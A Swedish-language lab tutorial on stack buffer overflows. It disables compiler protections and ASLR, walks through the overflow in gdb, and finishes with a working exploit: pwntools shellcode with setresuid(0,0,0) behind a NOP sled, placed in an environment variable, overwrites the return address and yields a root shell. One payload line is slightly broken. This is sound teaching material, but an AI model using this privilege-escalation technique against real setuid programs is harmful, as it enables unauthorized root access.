 

## Ex 1

Stäng av skydd

För att kompilera:
```sh
$ gcc -m32 -fno-stack-protector -no-pie -fno-pic -z execstack -o ex1 ex1.c
```

Vad flaggorna gör:
    - `-m32` - 32bitars kompilering
    - `-fno-stack-protector` - stäng av stack protection :)
    - `-z execstack` - stäng av no-exec-flaggor
    - `-no-pie` - stäng av "position-independent executable"
    - `-fno-pic` - stäng av "position-independent code"

För att kunna köra behöver också ASLR stängas av:
```sh
$ sudo su
$ echo 0 > /proc/sys/kernel/randomize_va_space
```

När detta är gjort så kan vi köra programmet, och få samma adress varje gång
programmet körs.

Förhållandet mellan adresserna motsvarar också storleken på våra arrays

## Ex 2

Visa buffer-overruns

```sh
$ gcc -m32 -fno-stack-protector -no-pie -fno-pic -z execstack -mpreferred-stack-boundary=2 -o ex2 ex2.c
$ ./ex2 $(python -c 'print "A"*51')
```

Vi skriver in mer än 50 tecken i buf2, allting däröver hamnar i buf1 (och vidare på stacken)

`./ex2 $(python -c 'print "A"*103')` - här skriver vi över våran integer också

Vi kollar vad programmet gör:

```
$ gdb ./ex2

# Visa assemblerkoden för main
(gdb) x/50i main
   0x804849e <main>:    lea    0x4(%esp),%ecx
   0x80484a2 <main+4>:  and    $0xfffffff0,%esp
   0x80484a5 <main+7>:  pushl  -0x4(%ecx)
   0x80484a8 <main+10>: push   %ebp
   0x80484a9 <main+11>: mov    %esp,%ebp
   0x80484ab <main+13>: push   %ecx
   0x80484ac <main+14>: sub    $0x4,%esp
   0x80484af <main+17>: mov    %ecx,%eax
   0x80484b1 <main+19>: cmpl   $0x2,(%eax)
   0x80484b4 <main+22>: je     0x80484d3 <main+53>
   0x80484b6 <main+24>: mov    0x4(%eax),%eax
   0x80484b9 <main+27>: mov    (%eax),%eax
   0x80484bb <main+29>: sub    $0x8,%esp
   0x80484be <main+32>: push   %eax
   0x80484bf <main+33>: push   $0x80485ac
   0x80484c4 <main+38>: call   0x8048300 <printf@plt>
   0x80484c9 <main+43>: add    $0x10,%esp
   0x80484cc <main+46>: mov    $0xffffffff,%eax
   0x80484d1 <main+51>: jmp    0x80484ec <main+78>
   0x80484d3 <main+53>: mov    0x4(%eax),%eax
   0x80484d6 <main+56>: add    $0x4,%eax
   0x80484d9 <main+59>: mov    (%eax),%eax
   0x80484db <main+61>: sub    $0xc,%esp
   0x80484de <main+64>: push   %eax
   0x80484df <main+65>: call   0x804843b <copystr>
   0x80484e4 <main+70>: add    $0x10,%esp
   0x80484e7 <main+73>: mov    $0x0,%eax
   0x80484ec <main+78>: mov    -0x4(%ebp),%ecx
   0x80484ef <main+81>: leave
   0x80484f0 <main+82>: lea    -0x4(%ecx),%esp
   0x80484f3 <main+85>: ret

# Visa assemblerkoden för copystr
(gdb) x/50i copystr
   0x804843b <copystr>: push   %ebp
   0x804843c <copystr+1>:       mov    %esp,%ebp
   0x804843e <copystr+3>:       sub    $0x84,%esp
   0x8048444 <copystr+9>:       pushl  0x8(%ebp)
   0x8048447 <copystr+12>:      lea    -0x84(%ebp),%eax
   0x804844d <copystr+18>:      push   %eax
   0x804844e <copystr+19>:      call   0x8048310 <strcpy@plt>
   0x8048453 <copystr+24>:      add    $0x8,%esp
   0x8048456 <copystr+27>:      mov    -0x4(%ebp),%eax
   0x8048459 <copystr+30>:      push   %eax
   0x804845a <copystr+31>:      lea    -0x4(%ebp),%eax
   0x804845d <copystr+34>:      push   %eax
   0x804845e <copystr+35>:      push   $0x8048560
   0x8048463 <copystr+40>:      call   0x8048300 <printf@plt>
   0x8048468 <copystr+45>:      add    $0xc,%esp
   0x804846b <copystr+48>:      lea    -0x44(%ebp),%eax
   0x804846e <copystr+51>:      push   %eax
   0x804846f <copystr+52>:      lea    -0x44(%ebp),%eax
   0x8048472 <copystr+55>:      push   %eax
   0x8048473 <copystr+56>:      push   $0x804856e
   0x8048478 <copystr+61>:      call   0x8048300 <printf@plt>
   0x804847d <copystr+66>:      add    $0xc,%esp
   0x8048480 <copystr+69>:      lea    -0x84(%ebp),%eax
   0x8048486 <copystr+75>:      push   %eax
   0x8048487 <copystr+76>:      lea    -0x84(%ebp),%eax
   0x804848d <copystr+82>:      push   %eax
   0x804848e <copystr+83>:      push   $0x804857d
   0x8048493 <copystr+88>:      call   0x8048300 <printf@plt>
   0x8048498 <copystr+93>:      add    $0xc,%esp
   0x804849b <copystr+96>:      nop
   0x804849c <copystr+97>:      leave
   0x804849d <copystr+98>:      ret


# Kort genomgång av starten av funktionen:
push   %ebp        - Lägg till vår framepointer på stacken
mov    %esp,%ebp   - Kopiera framepointer till stackpointer
sub    $0x84,%esp  - Gör plats på stacken för 0x84 = 132 bytes
132 bytes:
buf2[64]  64 bytes
buf1[64]  64 bytes
int x      4 bytes

Efter detta kommer på stacken:
frameptr   4 bytes  (%ebp som vi la dit)
retptr     4 bytes  (dit funktionen ska returnera)


# Stoppa i funktionen copystr, och kör igång
(gdb) break copystr
(gdb) run "`python -c 'print "A"*(64+64+4+4+4)'`"

# Visa våra register, och var vi är i asm-koden
(gdb) tui enable
(gdb) layout asm
(gdb) layout regs

# stegar framåt
(gdb) nexti
...
till <copystr+15>

# Skriv ut 2 'words' i hex från vår stack
(gdb) x/2xw $esp
0xffffcde4:     0xffffd141      0xf7fd3b48

# Visa vårat argument
(gdb) x/s 0xffffd141
0xffffd141:     'A' <repeats 140 times>

# Sätt breakpoint på 'ret', och gå dit
(gdb) break \*copystr+98
(gdb) c

(gdb) x/2xw $esp
0xffffce5c:     0x41414141      0xffffd100
(gdb) c
Program received signal SIGSEGV, Segmentation fault.                                                                   
Cannot access memory at address 0x41414141 
```

## Ex 3

Hur vi exploaterar föregående exempel:

Vad vi vet:
 - Att våra variabler tar upp 132 bytes
 - Därefter kommer 4 bytes framepointer
 - Därefter kommer returadressen

Vi lägger in våran kod i en miljövariabel, tillsammans med
massa NOP-instruktioner.

Vi tar sedan reda på adressen till denna variabel, och fyller hela vår buffer
upp till 'ret' med denna adress, så att när 'ret' körs, så kommer våran kod i miljövariabeln
att köras istället.

Kod till get-shellcode.py (skapar en shellcode, och lägger i miljövariabeln 'EGG')
```python
# -*- coding: utf-8 -*-
from pwnlib.asm import asm
from pwnlib.shellcraft.i386.linux import sh, setresuid
import os

instructions = sh()
print("Assembler instructions for shellcode:")
print(instructions)


shellcode = asm(setresuid(0, 0, 0)) + asm(instructions)
# Lägg till no-op instruktioner, så att vi får större träffyta
maxlen = 50000
nopsled = '\x90'*(maxlen - len(shellcode))
shellcode = nopsled + shellcode

os.environ['EGG'] = shellcode

print("Shellcode is now in EGG")
print("Now, run ./getenvaddr EGG <progname> to get address")
os.system("/bin/bash")
```

Kod till getenvaddr: (kompileras med `gcc -m32 -o getenvaddr getenvaddr.c`)
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(int argc, char *argv[]) {
	char *ptr;

	if(argc < 3) {
		printf("Usage: %s <environment variable> <target program name>\n", argv[0]);
		exit(0);
	}
	ptr = getenv(argv[1]); /* get env var location */
	ptr += (strlen(argv[0]) - strlen(argv[2]))*2; /* adjust for program name */
	printf("%s will be at %p\n", argv[1], ptr);
}
```


```sh
$ python get-shellcode.py
...

$ ./getenvaddr EGG ./ex2
EGG will be at 0xffff10c1

$ ./ex2 $(python -c "print ('c110ffff'.decode(hex))*(142/4)")
envp: 0xffff0c90
x: 0xffff0bd8
buf1: 0xffff0b98
buf2: 0xffff0b58
# whoami
root
```

